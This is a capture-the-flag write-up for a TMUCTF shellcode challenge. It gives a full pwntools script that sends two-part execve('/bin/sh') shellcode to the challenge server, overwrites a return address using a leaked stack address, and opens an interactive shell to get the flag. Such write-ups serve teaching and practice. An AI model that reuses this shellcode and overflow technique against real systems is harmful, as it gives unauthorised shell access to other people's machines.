

# Challenge Description
<p align="center">
  
</p>
<br>

# Writeup
This is a shellcode challenge. We have to insert a two-part shellcode and finally overwrite the address of the beginning of the shellcode. Here is the script:    
```python
from pwn import *
context.arch = "amd64"

r = remote("194.5.207.113", 7030)
sh1 = ''
sh1 += asm('mov rbx, 0x68732f6e69622f2f')
sh1 += asm('jmp $-0x25')
sh2 = ''
sh2 += asm('xor rsi, rsi')
sh2 += asm('xor rdx, rdx')
sh2 += asm('mov al, 0x3b')
sh2 += asm('push rdx')
sh2 += asm('push rbx')
sh2 += asm('mov rdi, rsp')
sh2 += asm('syscall')

r.recvuntil(':')
r.sendline(sh1)
r.recvuntil(':')
r.sendline(sh2)
r.recvuntil('address: ')
n = r.recvuntil('\n')
print(n)
leak = int(n,16)
log.info('leak : 0x%x' % leak)
r.recvuntil(': ')
r.sendline('a'*20 + p64(leak + 12))
r.interactive()
```   
The flag:   
```
TMUCTF{3x3cu74bl3_574ck_15_v3ry_d4n63r0u5}
```  
